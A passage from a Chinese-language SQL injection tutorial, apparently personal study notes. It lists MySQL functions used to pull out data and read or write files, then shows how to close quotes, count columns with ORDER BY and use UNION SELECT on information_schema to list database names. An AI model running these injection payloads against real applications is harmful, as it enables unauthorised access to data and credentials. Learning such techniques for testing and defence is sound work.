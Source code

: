     故可以判断这张表里有2列
  
  - 数据库的常用参数
  
    * `user()`：当前数据库用户
    * `database()`：当前数据库名
    * `version()`：当前使用的数据库版本
    * `@@datadir`：数据库存储数据路径
    * `concat()`：联合数据，用于联合两条数据结果。如 `concat(username,0x3a,password)`
    * `group_concat()`：和 `concat()` 类似，如 `group_concat(DISTINCT+user,0x3a,password)`，用于把多条数据一次注入出来
    * `concat_ws()`：用法类似
    * `hex()` 和 `unhex()`：用于 hex 编码解码
    * `ASCII()`：返回字符的 ASCII 码值
    * `CHAR()`：把整数转换为对应的字符
    * `load_file()`：以文本方式读取文件，在 Windows 中，路径设置为 `\\`
    * `select xxoo into outfile '路径'`：权限较高时可直接写文件

----

## 基础注入

* 构造闭合
  **`这一步最核心，我也花了最长时间去理解`**

  sql语句通常是``SELECT 列名1, 列名2, ... FROM 表名 WHERE id= ？``而其中的“？”可以用很多种方式表达，例如（$id）、'$id'等多种闭合方法。
  那么构造闭合，已知我们可控输入点是 ? ，我们可以自行输入与其匹配的符号‘ ，“
  比如后台是：

  `SELECT username,password FROM users WHERE id = "$id"`
  我们传入id=1”，那么执行语句就为
  `SELECT username,password FROM users WHERE id = "1" "`
  导致最后面的“不能找到匹配的从而报错。这就需要判断闭合方式来构造闭合来实现sql注入

* 数字型注入
  `$sql = "SELECT username,password FROM users WHERE id = $_GET["id"];`

  这里我们用GET方式传入id的值没有任何闭合方式，在没有做过滤的情况下，可以直接构造sql注入语句

  * 使用`Order by`来确定列数
    ```mysql
    id = 1 Order by 1;
    id = 1 Order by 2;
    id = 1 Order by 3; # 报错 确定列数为 2 
    ```

  * 使用联合查询 `union` 基于 `information_schema` 拿到数据库名（即爆库名）
  
    ```mysql
    1 union SELECT 1,schema_name FROM information_schema.schemata;
    # or
    1 union SELECT schema_name,2 FROM information_schema.schemata;
    # 注意这里的 schema_name 一定要放在会显示的列名上面 比如password不显示 但是username显示 那么就用第二种。
    # 此时后台执行为:
    SELECT username,password FROM users WHERE id = 1 union SELECT 1,schema_name FROM information_schema.schemata;
    ```
  